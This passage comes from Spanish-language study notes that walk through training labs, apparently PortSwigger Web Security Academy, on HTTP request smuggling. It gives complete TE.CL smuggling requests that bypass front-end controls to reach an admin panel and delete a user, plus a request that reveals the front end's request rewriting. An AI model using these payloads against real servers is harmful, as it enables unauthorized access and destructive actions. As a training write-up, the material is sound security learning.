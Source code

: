 Y vemos que tenemos acceso al panel de administrador. Sólo queda modificar la request anterior para borrar al usuario carlos modificando la URL: GET /admin/delete?username=carlos HTTP/1.1

<br />

**Laboratorio 7: Exploit HTTP request smuggling to bypass front-end security controls, TE.CL vulnearbility**

De la misma forma que en el laboratorio anterior manejamos de forma maliciosa las cabeceras Transfer-Encoding y Content-Type para introducir una request a /admin que no sea procesada por el fornt end pero si por el back-end.

Pero finalmente terminamos intrudociendo:

```HTTP
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

<br />

#### 5.2. Revealing front-end request rewriting.

Puede ser que el servidor front-end reescriba la solicitud antes de reenviarla al servidor back-end. Esto puede utilizarse para conseguir que en dicha reescritura se incorpore contenido malicioso en la request.

<br />

**Laboratorio 8: Exploiting HTTP request smuggling to reveal front-end request rewriting**

Este laboratorio involucra un servidor front-end que reescribe las solicitudes que manda al back-end y no procesa los datos fragmentados.

Hay un panel de administrador que sólo es accesible para usuarios locales y el servidor front-end añade una cabecera que contiene la IP del solicitante.

La aplicación web contiene una barra de búsqueda que refleja el input introducido en la respuesta HTTP. De esta forma, envíamos la siguiente request:

```HTTP
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```
